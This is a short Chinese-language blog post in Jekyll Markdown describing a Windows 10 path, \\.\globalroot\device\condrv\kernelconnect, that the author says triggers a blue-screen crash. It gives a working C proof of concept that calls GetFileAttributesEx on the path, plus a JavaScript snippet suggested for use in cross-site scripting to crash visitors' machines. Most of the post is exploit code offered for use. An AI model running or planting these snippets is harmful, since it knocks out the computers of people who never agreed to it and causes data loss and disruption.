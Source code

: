 ```yaml
---
layout: post
title: "能导致Windows 10蓝屏的一条路径"
author: "Blume"
tags: "网络安全"
intro: "核心代码: file:///globalroot/device/condrv/kernelconnect"
---
```


一个漏洞，微软官方尚未修复；如果由于不正确的错误检查而尝试不通过属性而连接到路径，则会导致异常，从而导致Windows 10中的蓝屏死机（BSOD）崩溃。得知此漏洞只对Windows 10有效

`\\.\globalroot\device\condrv\kernelconnect`

代码实现
{% highlight c %}
#include <iostream>
#include <Windows.h>
int main() {
    WCHAR fileName[] = L"\\\\.\\globalroot\\device\\condrv\\kernelconnect";
    WIN32_FILE_ATTRIBUTE_DATA data;
    GetFileAttributesEx(fileName, GetFileExInfoStandard, &data);
}
{% endhighlight %}

还可以用来做XSS
{% highlight javascript %}
<script>document.location = '\\\\.\\globalroot\\device\\condrv\\kernelconnect';</script>
{% endhighlight %}